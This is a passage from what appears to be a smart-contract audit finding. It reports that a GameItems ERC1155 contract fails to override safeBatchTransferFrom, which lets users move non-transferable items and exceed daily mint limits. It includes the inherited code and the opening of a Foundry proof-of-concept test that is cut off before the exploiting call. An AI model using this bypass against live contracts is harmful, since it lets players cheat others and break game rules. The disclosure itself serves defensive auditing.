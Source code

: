 OZ's ERC1155 contract also has another transfer function called `safeBatchTransferFrom` which is not overridden in the `GameItems` contract.

```javascript
    function safeBatchTransferFrom(
        address from,
        address to,
        uint256[] memory ids,
        uint256[] memory amounts,
        bytes memory data
    ) public virtual override {
        require(
            from == _msgSender() || isApprovedForAll(from, _msgSender()),
            "ERC1155: caller is not token owner nor approved"
        );
        _safeBatchTransferFrom(from, to, ids, amounts, data);
    }
```

Using this function call a user can transfer a game item which should not be transferable. This also allows the user mint more items than his `dailyAllownce`, since he can also mint from other addresses and transfer to his main address.

## Impact

A user can transfer game items which are set as non-transferable. This could potentially give him a huge advantage over his opponents. He can also exceed his `dailyAllowance` by creating multiple addresses, minting game items and transferring them.

## Proof of Concept

Proof of code (paste the following code in your `GameItems.t.sol` test file):

```javascript
    function testTransferNonTransferableGameItems() public {
        address attacker = vm.addr(3);
        _fundUserWith4kNeuronByTreasury(attacker);
        _fundUserWith4kNeuronByTreasury(_DELEGATED_ADDRESS);

        // Set game item's transferability to false
        _gameItemsContract.adjustTransferability(0, false);

        // Attacker mints his daily allowance of 10 game items
        vm.startPrank(attacker);
        _gameItemsContract.mint(0, 1);
        _gameItemsContract.mint(0, 1);
        _gameItemsContract.mint(0, 1);
        _gameItemsContract.mint(0, 1);
        _gameItemsContract.mint(0, 1);
        _gameItemsContract.mint(0, 1);
        _gameItemsContract.mint(0, 1);
        _gameItemsContract.mint(0, 1);
        _gameItemsContract.mint(0, 1);
        _gameItemsContract.mint(0, 1);

        // Confirm attacker can't mint 11th game item and exceed his allowance
        vm.expectRevert();
        _gameItemsContract.mint(0, 1);
        vm.stopPrank();

        // Confirm attacker can't transfer his game items by calling the safeTransferFrom function
        // Which checks for transferability
        vm.prank(attacker);
        vm.expectRevert();
        _gameItemsContract.safeTransferFrom(attacker, _DELEGATED_ADDRESS, 0, 10, "");
```